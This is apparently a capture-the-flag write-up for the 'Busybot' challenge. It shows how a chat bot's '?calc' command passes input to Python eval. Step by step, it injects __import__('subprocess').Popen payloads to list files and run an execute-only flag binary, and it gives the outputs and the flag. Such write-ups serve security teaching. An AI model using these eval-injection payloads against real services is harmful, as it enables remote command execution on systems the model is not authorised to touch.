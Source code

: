 # Busybot

## Write-up

1. `?calc` command "evaluates arithmetic expressions"

2. `?calc 1+1` :  

```txt
2
```

3. `?calc 'a'+'b'`

```txt
ab
```

That's a bingo!!  
It's probably using `eval` python function under the hood, so we can theoretically do anything.

4. Look for a way to get command execution, can we import `subprocess` ?

```txt
?calc __import__('subprocess')
```

Reply :  

```txt
<module 'subprocess' from '/usr/local/lib/python3.8/subprocess.py'>
```

Yes we can!

5. Let's execute `ls` :  

```txt
?calc __import__('subprocess').Popen('ls',stdout=-1,shell=True).communicate()[0].decode()
```

Reply :  

```txt
busybot.py
example.env
flag
requirements.txt
riddles.json
```

6. Try to read `flag` ?

```txt
?calc "__import__('subprocess').Popen('cat ./flag',stdout=-1,shell=True).communicate()[0].decode()"
```

No reply.

7. Let's look for more details with `ls -l` :  

```txt
?calc "__import__('subprocess').Popen('ls -l',stdout=-1,shell=True).communicate()[0].decode()"
```

Reply :  

```txt
total 44
-rwxr-xr-x 1 root root  4061 May 29 16:18 busybot.py
-rw-r--r-- 1 root root    58 May 29 16:18 example.env
---x--x--x 1 root root   388 May 29 16:18 flag
-rw-r--r-- 1 root root    28 May 29 16:18 requirements.txt
-rw-r--r-- 1 root root 26044 May 29 16:18 riddles.json
```

`flag` is eXexute-only.

8. Let's execute `./flag` then!

```txt
?calc __import__('subprocess').Popen('./flag',stdout=-1,shell=True).communicate()[0].decode()
```

Reply :  

```txt
shellmates{BE_C4rEfu1L_W17H_3vAl_f0Lk$!!}
```


## Flag

`shellmates{BE_C4rEfu1L_W17H_3vAl_f0Lk$!!}`
